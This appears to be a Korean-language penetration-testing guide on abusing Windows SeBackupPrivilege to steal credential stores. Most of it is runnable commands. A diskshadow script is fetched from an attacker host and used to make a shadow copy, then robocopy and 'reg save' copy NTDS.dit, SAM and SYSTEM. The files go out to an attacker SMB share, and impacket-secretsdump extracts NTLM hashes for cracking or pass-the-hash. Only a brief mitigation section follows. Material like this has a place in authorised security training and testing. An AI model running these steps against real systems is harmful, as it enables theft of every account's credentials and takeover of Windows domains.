 

# SeBackupPrivilege를 이용한 시스템 파일 탈취 가이드

`SeBackupPrivilege`는 이름 그대로 시스템 백업을 위해 설계된 권한입니다. 이 권한을 가진 사용자는 파일의 접근 제어 목록(ACL)에 상관없이 시스템의 모든 파일을 읽을 수 있습니다. 이 때문에 `SYSTEM`과 `SAM` 레지스트리 하이브, 그리고 도메인 컨트롤러의 `NTDS.dit` 파일과 같은 치명적인 시스템 파일을 탈취하는 데 악용될 수 있습니다.
`SeRestorePrivilege` 권한이 있어도 사용 가능함.

https://infosecwriteups.com/razorblack-walkthrough-thm-fde0790c182f

### **공격 원리: 볼륨 섀도 복사본 (Volume Shadow Copy)**

`NTDS.dit`나 `SAM` 파일은 운영체제가 항상 사용 중이라 파일을 잠그고(Lock) 있기 때문에, `SeBackupPrivilege`가 있더라도 직접 복사할 수는 없습니다. 이 잠금을 우회하기 위해 **볼륨 섀도 복사본(VSS)** 기술을 사용합니다.

1.  VSS를 이용해 현재 시스템 드라이브(C:)의 스냅샷(섀도 복사본)을 생성합니다.
2.  이 스냅샷을 새로운 드라이브(예: X:)로 마운트합니다.
3.  스냅샷 내의 파일들은 잠겨있지 않으므로, 마운트된 새 드라이브에서 자유롭게 복사할 수 있습니다.
4. 새로운 드라이브(백업)에 대해서는 더 많은 접근 권한을 갖게 되며, 이 권한을 이용해 최종적으로 `ntds.dit`와 `system.hive` 파일을 확보. 이때 `win-rm`과 같은 도구를 사용해 공격자의 로컬 머신으로 파일을 가져오는 것이 좋음.
5. 파일을 확보한 후에는 해시를 크래킹하거나 Pass-the-Hash 공격 등을 시도할 수 있음.

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 `SeBackupPrivilege` 권한을 보유하고 있는지 확인합니다.

```powershell(title="현재 세션의 권한 확인")
whoami /priv
```

- **확인 사항:** 출력된 목록에 `SeBackupPrivilege`가 `Enabled` 상태로 있는지 확인합니다.

---

### **2. 단계별 공격 절차**

#### **1단계: `diskshadow` 스크립트 준비**
- 공격자 Kali에서 VSS 생성을 자동화하기 위한 `diskshadow`용 스크립트 파일을 만듭니다.

```ini title="viper.dsh"
# 컨텍스트를 영구적, 비대화형으로 설정
# C: 드라이브를 섀도 복사본 대상으로 추가
# 섀도 복사본 생성
# 생성된 섀도 복사본을 X: 드라이브로 노출

set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```

#### **2단계: 파일의 줄 끝 형식(line ending)을 변환
- Unix 형식의 텍스트 파일을 DOS/Windows 형식으로 변환합니다.

```ini title="Kali"
unix2dos viper.dsh
```


#### **3단계: 스크립트 실행 및 파일 복사**
- 준비한 스크립트를 타겟 시스템에 업로드하고 `diskshadow`로 실행하여, 민감한 파일들을 쓰기 가능한 위치(예: `C:\Temp`)로 복사합니다.

```powershell title="타겟: 섀도 복사본 생성 및 파일 복사"
powershell -c iwr -uri http://[kali_ip]/viper.dsh -o viper.dsh
diskshadow /s viper.dsh
robocopy /b x:\windows\ntds . ntds.dit

reg save hklm\system c:\windows\temp\system
```

- 이 방법을 더 선호합니다 (하지만 이는 로컬 사용자에게만 해당됩니다. 만약 모든 도메인 사용자의 정보가 필요하다면, `ntds.dit` 파일이 필요합니다)

```powershell
cd c:\windows\tasks
diskshadow /s viper.dsh
robocopy /b x:\windows\ntds . ntds.dit

reg save hklm\sam c:\Windows\tasks\sam
reg save hklm\system c:\Windows\tasks\system

# kali에서 smbserver 오픈하고 Target에서 연결 후
# Target -> Kali
copy ntds.dit,sam,system \\[kali_ip]\share\

# Kali -> Target
# copy \\[kali_ip]\share\test.txt
```

#### **4단계: 파일 유출 및 해시 덤프**
- 복사된 `ntds.dit`, `SYSTEM`, `SAM` 파일을 공격자 머신으로 다운로드합니다.
- `impacket-secretsdump`를 사용하여 파일로부터 모든 계정의 NTLM 해시를 추출합니다.

```bash(title="공격자: secretsdump로 해시 추출")
# 도메인 컨트롤러에서 탈취한 경우
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL

# 일반 시스템에서 탈취한 경우
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
impacket-secretsdump -ntds ntds.dit -sam sam -system system local
```

---

### **3. 방어 (Mitigation)**

- **최소 권한의 원칙:** `SeBackupPrivilege`는 백업 솔루션이나 시스템 관리자 등 반드시 필요한 계정에만 부여해야 합니다.
- **모니터링:** `diskshadow.exe`의 실행이나 VSS 관련 이벤트 로그(ID 7001)를 모니터링하여 비정상적인 백업 활동을 탐지할 수 있습니다.


